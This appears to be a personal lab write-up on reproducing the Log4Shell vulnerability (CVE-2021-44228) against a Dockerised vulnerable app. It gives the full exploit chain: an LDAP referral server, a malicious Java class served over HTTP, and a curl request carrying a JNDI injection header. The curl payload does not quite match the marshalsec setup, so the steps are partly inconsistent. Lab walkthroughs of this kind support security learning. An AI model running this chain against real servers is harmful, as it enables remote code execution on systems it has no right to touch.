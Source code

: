 ```yaml
---
layout: post
title: CVE-2021-44228 Log4j Vuln Notes
tags: CVE-2021-44228 Log4j Vuln Notes
categories: CVE-VULNS
---
```


![Image](/img/cve-2021-44228-top.png)

## Installing Vulnerable Machine on the Ubuntu Machine (10.250.1.60)

I will be use thess documents (**https://github.com/christophetd/log4shell-vulnerable-app** , **https://github.com/mbechler/marshalsec** and **https://github.com/xiajun325/apache-log4j-rce-poc/** ) to build CVE-2021-44228 vulnerable machine. Firsting firt i am starting to install docker on that machine.

#### Docker İnstall On The Vulnerable Machine (10.250.1.60)


- `sudo apt update`
- `sudo apt-get install apt-transport-https ca-certificates curl software-properties-common`
- `curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add -`
- `sudo add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/ubuntu  $(lsb_release -cs)  stable"`
- `sudo apt update`
- `sudo apt-get install docker-ce`
- `docker --version`
- `sudo systemctl start docker`
- `sudo systemctl enable docker`
- `sudo systemctl status docker`

![Image](/img/docker.png)

#### Installing Vulnerable Machine (10.250.1.60)

- `cd /tmp`
- `sudo git clone https://github.com/christophetd/log4shell-vulnerable-app`
- `cd log4shell-vulnerable-app/`
- `sudo docker build . -t vulnerable-app`
- `sudo docker run -p 8080:8080 --name vulnerable-app vulnerable-app`

![Image](/img/installing.png)
![Image](/img/installing2.png)
![Image](/img/installing3.png)

---

## Prepare Attacker Machine (10.250.1.61)

#### Install Java JDK On the Attacker Machine 

- `cd /tmp`
- `sudo apt update`
- `sudo apt-get install default-jdk`
- `wget http://mirrors.rootpei.com/jdk/jdk-8u181-linux-x64.tar.gz`
- `tar zxvf jdk-8u181-linux-x64.tar.gz`
- `sudo mv ./jdk1.8.0_181 /usr/lib/jvm`
- `sudo update-alternatives --install "/usr/bin/java" "java" "/usr/lib/jvm/jdk1.8.0_181/bin/java" 1`
- `sudo update-alternatives --install "/usr/bin/javac" "javac" "/usr/lib/jvm/jdk1.8.0_181/bin/javac" 1`
- `sudo update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/lib/jvm/jdk1.8.0_181/bin/javaws" 1`
- `sudo update-alternatives --config java` **choose the 1.8.0_181**
- `sudo update-alternatives --config javac`
- `sudo update-alternatives --config javaws`

```
sudo vim /etc/environment

# PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games"
PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/usr/lib/jvm/jdk1.8.0_181/bin:/usr/lib/jvm/jdk1.8.0_181/db/bin:/usr/lib/jvm/jdk1.8.0_181/jre/bin"
J2SDKDIR="/usr/lib/jvm/jdk1.8.0_181"
J2REDIR="/usr/lib/jvm/jdk1.8.0_181/jre*"
JAVA_HOME="/usr/lib/jvm/jdk1.8.0_181"
DERBY_HOME="/usr/lib/jvm/jdk1.8.0_181/db"
```

- `echo $JAVA_HOME`

- `java -version`

![Image](/img/java_ver.png)

---

#### Prepare LDAP Referrer Server on The Attacker

- `cd /tmp`
- `sudo apt install maven`
- `git clone https://github.com/mbechler/marshalsec`
- `cd /tmp/marshalsec`
- `sudo mvn clean package -DskipTests`
- `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.250.1.61:8000/#Log4jRCE"`

![Image](/img/ldap.png)

#### Prepare Malicious Java Code On The Attacker

- `mkdir /tmp/poc`
- `cd /tmp/poc`

```
vim Log4jRCE.java

public class Log4jRCE {

    static {
        try {
            String[] cmd = {"code"};
            Runtime.getRuntime().exec("touch /tmp/pwned").waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

- `javac Log4jRCE.java`

- `sudo python3 -m http.server`

![Image](/img/javac.png)

#### Exploit The Target Machine From The Attacker

- `curl 10.250.1.60:8080 -H 'X-Api-Version: ${jndi:ldap://10.250.1.61:1389/Basic/Command/Base64/dG91Y2ggL2V0Yy9wd25lZDE=}'`

![Image](/img/exploitt.png)

#### Verify on the Victim Machine wheater code execution

- `sudo docker exec vulnerable-app ls /tmp`

![Image](/img/pwned.png)

